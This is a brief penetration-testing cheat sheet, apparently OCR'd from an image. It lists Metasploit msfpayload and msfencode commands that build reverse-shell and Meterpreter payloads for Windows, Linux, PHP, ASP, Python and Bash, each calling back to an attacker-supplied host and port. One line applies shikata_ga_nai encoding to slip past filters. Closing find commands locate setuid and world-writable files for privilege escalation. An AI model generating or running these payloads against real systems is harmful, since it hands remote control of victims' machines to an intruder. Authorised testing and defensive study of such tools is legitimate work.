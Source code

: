 ## Metasploit Payloads:
`msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.10 X > system.exe`

`msfpayload php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 R > exploit.php`

`msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 R | msfencode -t asp -o file.asp`

`msfpayload windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 R | msfencode -e x86/shikata_ga_nai -b “\x00″ -t c`

## Create a Linux Reverse Meterpreter Binary
`msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell`

## Create Reverse Shell (Shellcode)
`msfpayload windows/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -b “\x00\x0a\x0d”`

## Create a Reverse Shell Python Script
`msfpayload cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.py`

## Create a Reverse ASP Shell
`msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t asp -o shell.asp`

## Create a Reverse Bash Shell
`msfpayload cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.sh`

## Create a Reverse PHP Shell
`msfpayload php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.php`

Edit shell.php in a text editor to add <?php at the beginning.

## Create a Windows Reverse Meterpreter Binary
`msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X >shell.exe`

## Find programs with a set uid bit in Linux
 `find / -uid 0 -perm -4000`

## Find things that are world writable
 `find / -perm -o=w`
